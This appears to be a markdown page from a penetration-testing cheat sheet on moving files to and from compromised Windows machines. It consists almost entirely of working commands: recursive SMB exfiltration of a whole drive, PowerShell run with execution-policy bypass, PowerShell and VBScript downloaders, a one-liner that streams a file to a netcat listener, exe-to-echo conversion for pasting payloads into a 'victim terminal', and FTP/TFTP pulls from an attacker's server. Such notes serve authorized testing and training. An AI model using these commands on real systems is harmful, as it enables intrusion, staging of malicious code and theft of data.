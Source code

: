 ```yaml
---
layout: default
title: Windows
parent: File Transfers
---
```


# Windows File Transfers
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## SMB
Exfill files recursively
```powershell
xcopy /c /h /r /s /y <source> <smb destination>
```
- e.g. `C:\*`

---

## PowerShell
Running PowerShell commands/files
```powershell
powershell -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -Command <command>
powershell -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File <file>
```
- `-ExecutionPolicy` sets the default execution policy for the current session, but does not override the value set in the registry
- `-NoLogo` hides the copyright banner at startup
- `-NonInteractive` does not present an interactive prompt to the user
- `-NoProfile` does not load the Windows PowerShell profile

Paste into terminal to create `wget.ps1` script
```powershell
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >> wget.ps1
echo $url = "<url>" >> wget.ps1
echo $file = "<output file>" >> wget.ps1
echo $webclient.DownloadFile($url,$file) >> wget.ps1
```

```powershell
powershell -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

One-liners (first is same as above pasted script)
```powershell
(New-Object System.Net.WebClient).DownloadFile(<url>, <output>)         # Fast, but no progress bar
(New-Object System.Net.WebClient).DownloadFileAsync(<url>, <output>)    # As above, but asynchronous
Invoke-WebRequest -Uri <url> -OutFile <output>                          # Easy, progress bar, but very slow
Start-BitsTransfer -Source <url> -Destination <output> [-Asynchronous]  # Fastest, asynchronous, progress bar, but BITS may not be enabled
```

PowerShell one-liner to send file to NetCat
```powershell
$h="<host>";$p="<port>";$data=Get-Content -Path "<file>";$tcp=New-Object System.Net.Sockets.TcpClient($h,$p);$w=New-Object System.IO.StreamWriter($tcp).GetStream();foreach($l in $data){$w.WriteLine($l)};$w.Flush();$w.Close();$tcp.Close();
```

---

## VBScript
Paste into terminal to create `wget.vbs` script
```powershell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

```powershell
cscript wget.vbs <url> <output>
```

---

## Convert File to Base64
Base 64 Encoding
```powershell
certutil -encode <input> <output>
[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("<UTF8 string>")) > <b64 output>
```

Base 64 Decoding
```powershell
certutil -decode <input> <output>
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("<b64 string>")) > <UTF8 output>
```

---

## exe2hex (debug.exe or PowerShell)
```shell
python3 exe2hex.py -x <exe> [-b <bat output>] [-p <ps output>] [-cc]        # From file
cat <exe> | python3 exe2hex.py -s [-b <bat output>] [-p <ps output>] [-cc]  # From stdin
```
- Paste output into target terminal to create file on target machine
- `-b` output to bat file (uses `debug.exe`, only 32-bit OSes, no file size limit)
- `-p` output to ps file (supports 64-bit, is not a ps script, only calls ps at end)
- `-c` or `-cc` for compression level
- `-t` creates an Expect file to automate a Telnet session
- `-w` creates an Expect file to automate a WinEXE session
- When using over **Telnet** or **WinEXE**, 100+ lines can be unpredictable including incorrect ordering or character ommission:
    - Use [Expect](http://expect.sourceforge.net/); available on most distros `apt install expect`
    - Further details found here <https://github.com/g0tmi1k/exe2hex/blob/master/README.md>

---

## exe2bat (debug.exe)
- Only works on 32-bit systems and file must be at most 64kB
- If > 64kB, use a compression tool such as `upx`
```shell
upx --ultra-brute <file>
```

Convert .exe to series of echo commands using `exe2bat`, paste into target terminal to create file on target machine
```shell
wine exe2bat.exe <input exe> <output text file>  # Remove Wine if on Windows
```

---

## FTP
- Often enabled, but interactive so need to provide text file with FTP commands instead

Setup FTP server e.g. vsftpd, pureftpd or proftpd
```shell
vim /etc/vsftpd.conf  # anonymous_enable=YES
service vsftpd start  # Default anonymous directory is /srv/ftp or /var/ftp
```

Paste into victim terminal (anonymous : anonymous for anonymous login)
```powershell
echo open <ip> > ftp.txt
echo <username> >> ftp.txt
echo <password> >> ftp.txt
echo bin >> ftp.txt
echo GET <remote file> >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```

---

## TFTP
- Enabled by default up to Win 2003/XP
- UDP based, often blocked by corporate egress rules
- Non-interactive, easy to setup

```powershell
atftpd --daemon --port 69 <directory>  # Setup server on attacker's machine
tftp -i <ip> GET <remote file>  # On victim machine
```